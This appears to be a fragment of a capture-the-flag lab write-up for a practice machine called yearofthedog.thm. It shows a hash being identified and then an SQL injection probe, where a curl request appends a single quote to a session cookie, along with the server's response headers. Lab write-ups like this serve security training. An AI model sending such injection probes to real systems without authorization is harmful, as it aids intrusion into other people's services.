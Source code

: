 `hashid 3faefd2fcfe859aad6a5963b9928603e`

```bash
Analyzing '3faefd2fcfe859aad6a5963b9928603e'
[+] MD2 
[+] MD5 
[+] MD4
```

> **SQL Injection Phase**
> 

![image.png](image.png)

**BURP COMMAND:**

```bash
'
```

`curl -isLkX $'GET' -H $'Host: yearofthedog.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: image/avif,image/webp,*/*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' -H $'Referer: [http://yearofthedog.thm/](http://yearofthedog.thm/)' -b $'id=44eedac10b846a07c990195802cb2497\'' $'[http://yearofthedog.thm/](http://yearofthedog.thm/)'`

```bash
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 13:15:06 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 163
Connection: close
Content-Type: text/html; charset=UTF-8
```
